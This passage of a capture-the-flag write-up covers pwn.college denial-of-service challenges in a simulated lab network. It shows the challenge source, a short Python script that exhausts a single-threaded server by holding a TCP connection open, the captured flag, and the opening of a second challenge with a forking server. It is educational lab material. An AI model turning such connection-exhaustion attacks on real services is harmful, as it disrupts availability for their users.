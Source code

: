 ```py title="/challenge/run" showLineNumbers
class ClientHost(Host):
    def entrypoint(self):
        while True:
            time.sleep(1)
            try:
                with socket.create_connection(("10.0.0.2", 31337), timeout=1) as client_socket:
                    client_socket.sendall(b"Hello, World!\n")
            except (TimeoutError, socket.timeout):
                print(flag, flush=True)
                break
            except (OSError, ConnectionError):
                continue

user_host = Host("ip-10-0-0-1", privileged_uid=parent_process.uids().effective)
server_host = ServerHost("ip-10-0-0-2")
client_host = ClientHost("ip-10-0-0-3")
network = Network(hosts={user_host: "10.0.0.1", server_host: "10.0.0.2", client_host: "10.0.0.3"},
                  subnet="10.0.0.0/24")
network.run()

user_host.interactive(preexec_fn=lambda: limit_capabilities(0), environ=parent_process.environ())
```

Client keeps trying to connect to `10.0.0.2:31337`. 
If the server stops responding (e.g., due to DoS), the client hits a timeout.
On timeout, the client prints the flag and breaks out of the loop.

We have to bombard the server so that it does not respond to the client, and we get a flag.

```py title="~/script.py" showLineNumbers
import socket

s = socket.create_connection(("10.0.0.2", 31337))
input("Holding connections open...\n")
```

```
root@ip-10-0-0-1:~# python ~/script.py
Holding connections open...
pwn.college{YEX2Ry1o2FmWPH-DALp2yFdHjNO.QX3UDM2EDL4ITM0EzW}
```

&nbsp;

## Denial of Service 2

> The client at `10.0.0.3` is communicating with the server at `10.0.0.2` on port `31337`. Deny this service.
>
> This time the server forks a new process for each client connection.

### Source code
```py title="/challenge/run showLineNumbers
#!/usr/bin/exec-suid --real -- /usr/bin/python -I

import os
import socket
import socketserver
import time

import psutil
from dojjail import Host, Network
from dojjail.capabilities import limit_capabilities

flag = open("/flag").read()
parent_process = psutil.Process(os.getppid())
```
